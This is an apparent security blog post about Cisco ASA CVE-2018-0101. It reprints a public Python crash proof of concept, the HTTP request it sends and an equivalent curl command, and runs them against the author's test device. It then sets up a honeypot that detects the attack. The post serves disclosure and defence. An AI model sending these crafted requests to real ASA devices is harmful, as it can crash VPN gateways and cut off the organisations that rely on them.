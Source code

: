 ```yaml
---
layout: post
title:  "Exploiting & Honeypotting Cisco ASA CVE-2018-0101"
tagline: "A closer look at CVE-2018-0101"
description: "A closer look at CVE-2018-0101 detailing how to exploit it and how to create a honeypot to detect it."
date:   2018-02-10
comments: true
image:
  feature: blog/3/feature.jpg
  hero: blog/3/header.jpg
  tags: [notes, cisco, exploits, honeypot]
---
```


## Summary
**On 29 January 2018** [CVE-2018-0101](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20180129-asa1) - A Remote Code Execution and Denial of Service Vulnerability for Cisco ASA Web VPN - was published featuring a CVSS Base Score of 10.

For those unfamiliar, Common Vulnerability Scoring System or CVSS is a standard used for assessing the severity of vulnerabilities. The score ranges from 0 to 10 with 10 being the most serious.


## Proof of concept

**On 02 February 2018** [@saidelike](https://twitter.com/saidelike) gave a talk titled ["Robin Hood vs Cisco ASA Anyconnect"](https://recon.cx/2018/brussels/resources/slides/RECON-BRX-2018-Robin-Hood-vs-Cisco-ASA-AnyConnect.PDF) at Recon Brussels in which he included some XML on slide 19.

![](/img/posts/3/slide19.png)
*Slide 19 from Robin Hood vs Cisco ASA Anyconnect*

**On 5 February 2018** a proof of concept was published by [@zerosum0x0](https://twitter.com/zerosum0x0), [@jennamagius](https://twitter.com/jennamagius), and [@aleph__naught](https://twitter.com/Aleph___Naught) on [pastebin](https://pastebin.com/YrBcG2Ln). At first glance it appears to be a python script that sends a request to the server using the XML found earlier in the slides and some other required headers.

```python
#
# Cisco ASA CVE-2018-0101 Crash PoC
#
# We basically just read @saidelike slides:
# https://www.nccgroup.trust/globalassets/newsroom/uk/events/2018/02/reconbrx2018-robin-hood-vs-cisco-asa.pdf
#
# @zerosum0x0, @jennamagius, @aleph___naught
#

import requests, sys

headers = {}
headers['User-Agent'] = 'Open AnyConnect VPN Agent v7.08-265-gae481214-dirty'
headers['Content-Type'] = 'application/x-www-form-urlencoded'
headers['X-Aggregate-Auth'] = '1'
headers['X-Transcend-Version'] = '1'
headers['Accept-Encoding'] = 'identity'
headers['Accept'] = '*/*'
headers['X-AnyConnect-Platform'] = 'linux-64'
headers['X-Support-HTTP-Auth'] = 'false'
headers['X-Pad'] = '0000000000000000000000000000000000000000'

xml = """<?xml version="1.0" encoding="UTF-8"?>
<config-auth client="a" type="a" aggregate-auth-version="a">
    <host-scan-reply>A</host-scan-reply>
</config-auth>
"""

r = requests.post(sys.argv[1], data = xml, headers = headers, verify=False, allow_redirects=False)

print(r.status_code)
print(r.headers)
print(r.text)

```

So let's go ahead and test it out!

```shell
wget https://pastebin.com/raw/YrBcG2Ln -O poc-cve-2018-0101.py
python3 poc-cve-2018-0101.py https://ciscoasa.glitchwitch.io
```

Using the PoC results in the following request, confirming my earlier first glance reading.

```http
POST / HTTP/1.1
Host: ciscoasa.glitchwitch.io
User-Agent: Open AnyConnect VPN Agent v7.08-265-gae481214-dirty
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
X-Aggregate-Auth: 1
X-Transcend-Version: 1
X-AnyConnect-Platform: linux-64
X-Support-HTTP-Auth: false
X-Pad: 0000000000000000000000000000000000000000
Content-Length: 156

<?xml version="1.0" encoding="UTF-8"?>
<config-auth client="a" type="a" aggregate-auth-version="a">
    <host-scan-reply>A</host-scan-reply>
</config-auth>

```

With this in mind, the same request can be made using curl.
```shell_session
curl -i -s -k  -X $'POST' \
    -H $'Host: ciscoasa.glitchwitch.io' -H $'User-Agent: Open AnyConnect VPN Agent v7.08-265-gae481214-dirty' -H $'Accept-Encoding: gzip, deflate' -H $'Accept: */*' -H $'Connection: close' -H $'Content-Type: application/x-www-form-urlencoded' -H $'X-Aggregate-Auth: 1' -H $'X-Transcend-Version: 1' -H $'X-AnyConnect-Platform: linux-64' -H $'X-Support-HTTP-Auth: false' -H $'X-Pad: 0000000000000000000000000000000000000000' -H $'Content-Length: 156' \
    --data-binary $'<?xml version=\"1.0\" encoding=\"UTF-8\"?>\x0a<config-auth client=\"a\" type=\"a\" aggregate-auth-version=\"a\">\x0a    <host-scan-reply>A</host-scan-reply>\x0a</config-auth>\x0a' \
    $'https://ciscoasa.glitchwitch.io/'
```    

Ultimately if the server is vulnerable this request should cause the system to crash. In tests on Cisco ASA 9.2(4), this was the case.

## Honey Pot
Okay, so we've got a working PoC in both python and a curl request. Now let's setup a honey pot!

**On 08 February 2018** [@omercent](https://twitter.com/omercnet) from cymmetria [released a honeypot tool](https://cymmetria.com/blog/honeypot-cisco-asa-vulnerability/) for the detection of this vulnerability. So let's go ahead and get that setup.
```shell_session
git clone https://github.com/Cymmetria/ciscoasa_honeypot.git
cd ciscoasa_honeypot
pip3 install --upgrade -r requirements.txt
```
Once that's done we can start it up.
```shell_session
python3 asa_server.py --help
Usage: asa_server.py [OPTIONS]

  A low interaction honeypot for the Cisco ASA component capable of
  detecting CVE-2018-0101, a DoS and remote code execution vulnerability

Options:
  -h, --host TEXT         Host to listen
  -p, --port INTEGER      Port to listen
  -i, --ike-port INTEGER  Port to listen for IKE
  -s, --enable_ssl        Enable SSL
  -c, --cert TEXT         Certificate File Path (will generate self signed
                          cert if not supplied)
  -v, --verbose           Verbose logging
  --help                  Show this message and exit.

python3 asa_server.py -p 443 -s
```

Now if we run the PoC on our honeypot we should see the following

```shell_session
CRITICAL:root:{'data': ['A'], 'src': '10.0.0.32', 'spt': 41392}
```

## Conclusion

CVE-2018-0101 is a critical flaw and is more than just a DoS vulnerability. The vulnerability also allows remote unauthenticated attackers to perform Remote Code Execution. Although at the time of writing this, no PoC code currently exists to demonstrate the rce portion.

A big thanks to [@saidelike](https://twitter.com/saidelike), [@zerosum0x0](https://twitter.com/zerosum0x0), [@jennamagius](https://twitter.com/jennamagius),  [@aleph__naught](https://twitter.com/Aleph___Naught), and [@omercent](https://twitter.com/omercnet) for all of their work.
